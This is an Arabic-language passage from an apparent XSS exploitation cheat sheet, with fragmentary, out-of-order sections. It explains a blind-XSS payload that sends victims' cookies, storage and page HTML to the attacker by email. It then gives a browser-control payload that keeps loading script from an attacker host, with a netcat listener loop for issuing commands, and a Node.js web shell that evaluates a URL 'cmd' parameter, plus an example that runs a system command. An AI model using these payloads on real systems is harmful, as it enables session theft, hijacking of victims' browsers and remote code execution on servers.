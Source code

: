 ```
?>
```

**لماذا يعمل؟**
- يجمع بيانات حساسة (كوكيز، تخزين، HTML) ويرسلها عبر POST.
- خادم PHP يُعالج الطلب ويرسل بريدًا إلكترونيًا.
- CORS يسمح بالتواصل عبر النطاقات.

**الخلاصة:**
بريد XSS أعمى باستخدام الكود أعلاه فعال لأنه يُرسل بيانات الضحية إلى بريد إلكتروني عبر PHP.

---

## 5. التحكم عن بُعد في المتصفح (Browser Remote Control)
{ #XSS_exploit  }
**الشرح البسيط:**
يُستخدم للتحكم في متصفح الضحية بإرسال أوامر JavaScript تفاعلية عبر اتصال شبكي. يتطلب خادم استماع (listener) على جهاز المهاجم.

**الأكواد:**

- **JavaScript (الحمولة):**
  ```
  setInterval(function(){with(document)body.appendChild(createElement('script')).src='http://HOST:5855'},100)
  ```

- **الاستماع (أمر طرفية):**
  ```
  $ while :; do printf "j$ "; read c; echo $c | nc -lp 5855 >/dev/null; done
  ```

**لماذا يعمل؟**
- `setInterval` يُحمل سكربتات من HOST كل 100 مللي ثانية.
- أمر `nc` يُنشئ خادمًا يُرسل الأوامر إلى المتصفح.
- يسمح بتنفيذ أوامر ديناميكية في متصفح الضحية.

**الخلاصة:**
التحكم في المتصفح باستخدام الأكواد أعلاه فعال لأنه يُنشئ قناة تفاعلية لإرسال أوامر JavaScript.

---

## 1. ويب شيل Node.js (Node.js Web Shell)
{ #XSS_exploit  }
**الشرح البسيط:**
يُستخدم لإنشاء ويب شيل في تطبيقات Node.js المعرضة للثغرات. يُنشئ خادمًا ينفذ أوامر Node.js عبر طلبات HTTP.

**الكود:**
```
require('http').createServer(function(req,res){res.end(1);eval(require('url').parse(req.url,1).query.cmd)}).listen(5855)
```

**مثال استخدام:**
```
http://target:5855/?cmd=require('child_process').exec('gnome-calculator')
```
